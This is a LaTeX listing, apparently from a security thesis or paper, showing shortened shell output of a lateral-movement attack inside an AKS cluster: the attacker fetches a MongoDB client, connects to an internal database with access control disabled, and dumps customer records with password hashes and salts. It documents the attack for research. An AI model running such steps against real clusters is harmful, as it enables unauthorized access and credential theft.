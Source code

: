 \begin{lstlisting}[
	caption={Shortened version of the shell I/O during the exploitation of the \gls{aks} cluster attack by lateral movement},
	label={lst:lateral-aks-exploit},
	breaklines=true]
Nmap done: 1 IP address (1 host up) scanned in 0.30 seconds
root@network-utils:/# curl fastdl.mongodb.org/linux/mongodb-linux-x86_64-4.0.10.tgz -O
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 81.0M  100 81.0M    0     0  20.6M      0  0:00:03  0:00:03 --:--:-- 20.6M
root@network-utils:/# tar -xvf mongodb-linux-x86_64-4.0.10.tgz
...
mongodb-linux-x86_64-4.0.10/bin/mongo
mongodb-linux-x86_64-4.0.10/bin/install_compass
root@network-utils:/# ./mongodb-linux-x86_64-4.0.10/bin/mongo 10.0.1.75
MongoDB shell version v4.0.10
connecting to: mongodb://10.0.1.75:27017/test?gssapiServiceName=mongodb
...
Welcome to the MongoDB shell.
...
Server has startup warnings:
2019-06-17T09:26:20.304+0000 I STORAGE  [initandlisten]
2019-06-17T09:26:20.304+0000 I STORAGE  [initandlisten] ** WARNING: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine
2019-06-17T09:26:20.304+0000 I STORAGE  [initandlisten] **          See http://dochub.mongodb.org/core/prodnotes-filesystem
2019-06-17T09:26:20.920+0000 I CONTROL  [initandlisten]
2019-06-17T09:26:20.920+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
2019-06-17T09:26:20.920+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
2019-06-17T09:26:20.920+0000 I CONTROL  [initandlisten]
2019-06-17T09:26:20.920+0000 I CONTROL  [initandlisten]
2019-06-17T09:26:20.920+0000 I CONTROL  [initandlisten] ** WARNING: /sys/kernel/mm/transparent_hugepage/enabled is 'always'.
2019-06-17T09:26:20.920+0000 I CONTROL  [initandlisten] **        We suggest setting it to 'never'
2019-06-17T09:26:20.920+0000 I CONTROL  [initandlisten]
> show dbs
admin  0.000GB
local  0.000GB
users  0.000GB
> use users
switched to db users
> db.customers.find()
{ "_id" : ObjectId("57a98d98e4b00679b4a830af"), "firstName" : "Eve", "lastName" : "Berger", "username" : "Eve_Berger", "password" : "fec51acb3365747fc61247da5e249674cf8463c2", "salt" : "c748112bc027878aa62812ba1ae00e40ad46d497", "addresses" : [ ObjectId("57a98d98e4b00679b4a830ad") ], "cards" : [ ObjectId("57a98d98e4b00679b4a830ae") ] }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b2"), "firstName" : "User", "lastName" : "Name", "username" : "user", "password" : "e2de7202bb2201842d041f6de201b10438369fb8", "salt" : "6c1c6176e8b455ef37da13d953df971c249d0d8e", "addresses" : [ ObjectId("57a98d98e4b00679b4a830b0") ], "cards" : [ ObjectId("57a98d98e4b00679b4a830b1") ] }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b5"), "firstName" : "User1", "lastName" : "Name1", "username" : "user1", "password" : "8f31df4dcc25694aeb0c212118ae37bbd6e47bcd", "salt" : "bd832b0e10c6882deabc5e8e60a37689e2b708c2", "addresses" : [ ObjectId("57a98d98e4b00679b4a830b3") ], "cards" : [ ObjectId("57a98d98e4b00679b4a830b4") ] }

\end{lstlisting}
